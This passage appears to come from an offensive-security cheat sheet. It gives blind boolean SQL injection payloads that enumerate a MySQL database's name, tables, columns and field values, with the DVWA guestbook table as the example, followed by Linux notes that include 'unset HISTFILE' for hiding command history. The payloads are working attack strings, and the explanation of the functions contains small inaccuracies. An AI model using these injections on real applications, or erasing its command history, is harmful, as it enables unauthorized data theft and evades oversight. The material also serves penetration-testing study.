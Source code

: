 <span id="anchor-158"></span>Enumerate Database Name

|                                                                        |
| ---------------------------------------------------------------------- |
| 1 AND ORD(MID((SELECT IFNULL(CAST(database() AS CHAR), 0x20)),1,1))\>1 |

<span id="anchor-159"></span>Enumerate Table Name

|                                                                                                                                                                      |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1 AND ORD(MID((SELECT IFNULL(CAST(table\_name AS CHAR),0x20) FROM information\_schema.tables WHERE table\_schema=database() ORDER BY table\_name LIMIT 0,1),1,1))\>1 |

<span id="anchor-160"></span>Enumerate Column Name

|                                                                                                                                                                                 |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1 AND ORD(MID((SELECT IFNULL(CAST(column\_name AS CHAR),0x20) FROM information\_schema.columns WHERE table\_name=0x6775657374626f6f6b ORDER BY column\_name LIMIT 0,1),1,1))\>1 |

<span id="anchor-161"></span>Enumerate Field Value

Explaination:

  - ORD(string) - Returns the leftmost character in a string
  - MID(string, position, length) - Extracts a substring, returns 5th
    position single character
  - IFNULL(expression1, expression2) - Returns 1st expression is not
    NULL, otherwise returns 2nd
  - CAST() - Casts the string containing the column name to CHAR
  - 0x20 is a space and the first printable ASCII character
  - LIMIT 0, 1 - Returns first single row.

This query will return true if the single character that is in the 5th
position of the name field in the first row of the guestbook table of
the dvwa database is greater than 1. The final number is increased until
the result is false. A false result, past 1, indicates that the value
was located. If the false result happens at 1, that means that the value
is NULL/non-existent.

|                                                                                                             |
| ----------------------------------------------------------------------------------------------------------- |
| 1 AND ORD(MID((SELECT IFNULL(CAST(name AS CHAR),0x20) FROM dvwa.guestbook ORDER BY name LIMIT 0,1),5,1))\>1 |

<span id="anchor-162"></span>Linux Commands

<span id="anchor-163"></span>Disable Command History

|                |
| -------------- |
| unset HISTFILE |

<span id="anchor-164"></span>Check Linux Distribution

<span id="anchor-165"></span>Method 1

|                     |
| ------------------- |
| cat /etc/\*-release |
